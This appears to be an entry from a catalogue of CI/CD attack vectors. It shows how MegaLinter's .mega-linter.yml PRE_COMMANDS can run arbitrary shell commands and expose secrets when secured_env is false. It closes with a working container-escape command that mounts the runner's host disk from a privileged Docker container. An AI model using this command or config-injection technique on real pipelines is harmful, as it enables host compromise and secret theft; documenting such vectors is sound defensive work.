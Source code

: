 ```yaml
---
title: oxsecurity/megalinter
tags:
- github-actions
- config-file
- eval-sh
references:
- https://github.com/oxsecurity/megalinter/
files: [.mega-linter.yml]
purl: pkg:githubactions/oxsecurity/megalinter
---
```


MegaLinter's default configuration file is `.mega-linter.yml` and can execute additional commands before and after the linters run.

```yaml
PRE_COMMANDS:
  - command: |
      echo "This is MegaLinter PRE_COMMAND on own MegaLinter ! :)"
    cwd: workspace        # runs in the repository folder
    secured_env: false    # True by default, but if defined to false, no global variable will be hidden (for example if you need GITHUB_TOKEN)

POST_COMMANDS:
  - command: |
      echo "This is MegaLinter POST_COMMAND on own MegaLinter ! :)"
    cwd: root             # runs at the root folder
```

Because the MegaLinter GitHub Actions runs in a container as root and mounts the Docker daemon socket (`/var/run/docker.sock`) inside the container, it is trivial to escape the container. In hosted GitHub Actions runners, the device `/dev/sda1` is the root filesystem and can be mounted in a privileged container to read/write files on the host.

```yaml
PRE_COMMANDS:
  - command: |
      docker run --privileged alpine:latest sh -c 'mount /dev/sda1 /mnt; ls -la /mnt/home/runner/work/*/*'
    cwd: root
````
